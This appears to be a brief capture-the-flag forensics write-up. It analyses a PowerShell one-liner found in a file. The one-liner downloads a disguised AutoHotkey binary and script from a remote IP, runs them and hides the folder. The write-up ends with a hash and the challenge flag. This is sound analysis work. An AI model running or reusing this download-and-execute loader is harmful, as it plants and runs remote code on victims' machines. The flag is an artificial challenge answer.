





Download the file and extract it.



Take a look at the "gzewaehzw" file.

```
ni 'C:/kitty/' -Type Directory -Force;cd 'C:/kitty/';Invoke-WebRequest -Uri "http://123.124.106.221/rmvijmpqsg" -OutFile 'C:/kitty/temp_AutoHotkey.exe';[System.IO.File]::WriteAllBytes("C:/kitty/AutoHotkey.exe",([System.IO.File]::ReadAllBytes("C:/kitty/temp_AutoHotkey.exe")[1024..([System.IO.File]::ReadAllBytes("C:/kitty/temp_AutoHotkey.exe").Length-1)]));Invoke-WebRequest -Uri "http://123.124.106.221/rjlcmdey" -OutFile 'C:/kitty/script.ahk';Invoke-WebRequest -Uri "http://123.124.106.221/giibkqxo" -OutFile 'C:/kitty/test.txt'; start 'C:/kitty/AutoHotkey.exe' -a 'C:/kitty/script.ahk';attrib +h 'C:/kitty/'
```

It was a PowerShell command.

This line was an attempt to download "rmvijmpqsg" as "temp_AutoHotkey.exe", then copy and rename it to "AutoHotkey.exe".

```
Invoke-WebRequest -Uri "http://123.124.106.221/rmvijmpqsg" -OutFile 'C:/kitty/temp_AutoHotkey.exe'
```







```
4e5821b9c00cd8ffc054d1077705e47a49a4d2da5ba4b2eecc64f10810ebe6f3
```

```
forensics{4e5821b9c00cd8ffc054d1077705e47a49a4d2da5ba4b2eecc64f10810ebe6f3}
```

